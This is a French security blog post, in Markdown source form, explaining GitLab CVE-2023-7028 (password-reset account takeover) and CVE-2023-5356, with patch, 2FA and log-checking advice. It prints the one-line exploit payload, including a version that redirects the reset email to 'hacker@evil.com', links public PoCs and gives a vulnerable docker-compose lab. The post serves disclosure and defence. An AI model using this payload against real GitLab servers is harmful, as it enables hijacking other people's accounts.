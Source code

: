 ```yaml
---
title: "Compromettre des comptes Gitlab avec la vulnérabilité CVE-2023-7028"
description: "FIXME description à remplir"
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Test d'intrusion", "Exploit", "Gitlab"]
---
```


# 😮 Exposer GitLab publiquement en 2024 : trop dangereux ?

<br>
<br>

Est ce que exposer son propre Gitlab est une bonne pratique de sécurité ? Et bien vous allez voir que **non**.

2024 commence fort et donne encore de bonnes raisons de **ne pas exposer ce service sur Internet** (mais plutôt de l'héberger derrière un VPN).

## Un début d'année sous haute tension

Le 11 janvier 2024, GitLab, la célèbre plateforme communautaire, a publié une annonce importante concernant les nouvelles versions `16.7.2, 16.6.4 et 16.5.6` pour GitLab Community Edition (CE) et Enterprise Edition (EE).

Deux vulnérabilités sont expliquées :

1. La vulnérabilité **CVE-2023-7028** 
    - CVSS de 10/10 😮
    - Elle permet la prise de contrôle d'un compte via la réinitialisation du mot de passe sans interaction de l'utilisateur.

2. La vulnérabilité **CVE-2023-5356** 
    - CVSS de 9.6/10 😟
    - Elle permet à un utilisateur d'abuser des intégrations Slack/Mattermost pour exécuter des commandes slash en tant qu'autre utilisateur.

## En bref

La vulnérabilité la plus problématique est la première : la **CVE-2023-7028**.

Loin d'être inoffensive, elle est très problématique :

- Elle permet de réinitialiser le mot de passe de n'importe quel utilisateur.
- La vulnérabilité est exploitable sans compte.
- Il est nécessaire de connaitre le mail de la victime.
- La charge tient en une ligne : `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

La deuxième vulnérabilité est tout aussi grave mais moins facilement exploitable.

## Exploitation

Pour exploiter cette vulnérabilité, le PoC est vraiment très simple :

```
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` est l'adresse de la victime
- `attacker@email.com` est l'adresse de l'attaquant

Une confusion est effectuée par GitLab rendant la possibilité à un attaquant d'écraser le mail de la victime par le sien 😮 !

Plus précisément, une modification a été apportée à la version `16.1.0` afin de permettre aux utilisateurs de réinitialiser leur mot de passe à l'aide d'une adresse électronique secondaire. La vulnérabilité résulte d'un bug dans le processus de vérification des email.

👉 Plus de détails sur le blog de GitLab : https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions


## Actions recommandées

Gitlab recommande les actions suivantes : 

1️⃣  **Mise à jour immédiate** : il est fortement conseillé de mettre à jour Gitlab vers la dernière version corrigée. Pour les utilisateurs n'ayant pas encore effectué de mise à jour, GitLab recommande de passer directement aux versions `16.7.3, 16.6.5, 16.5.7` ou ultérieures.

2️⃣ **Activer l'authentification à deux facteurs (2FA)**: GitLab conseille d'activer le 2FA pour tous les comptes. Cette sécurité empêche l'utilisation de cette vulnérabilité.

3️⃣ **Vérification de l'intégrité** : il est conseillé aux clients auto-gérés d'examiner leurs logs afin détecter toute tentative d'exploitation de ces vulnérabilités.

Exemple :

- Consulter le fichier `gitlab-rails/production_json.log` afin de vérifier qu'aucune requête pointant vers la route `/users/password` ne contienne **plusieurs adresses emails**.
- Consulter le fichier `gitlab-rails/audit_json.log` afin de vérifier que le champ `meta.caller_id` de `PasswordsController#create` et `target_details` ne contiennent pas **plusieurs adresses emails**.

## Automatisation

De nombreux PoC sont disponibles sur Internet permettant d'automatiser la vulnérabilité :

- Fait par un français talentueux : https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028

## Docker vulnérable

Pour les plus curieux, vous trouverez ci-dessous un docker compose vulnérable pour pratiquer cette vulnérabilité

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

## Démonstration

Petite démonstration ci-dessous pour présenter l'exploitation de la vulnérabilité :

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

🙏 Patchez rapidement. Trackflaw est la pour vous aider dans cette tâche. Prenez contact avec nous sur https://trackflaw.com ou par email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions
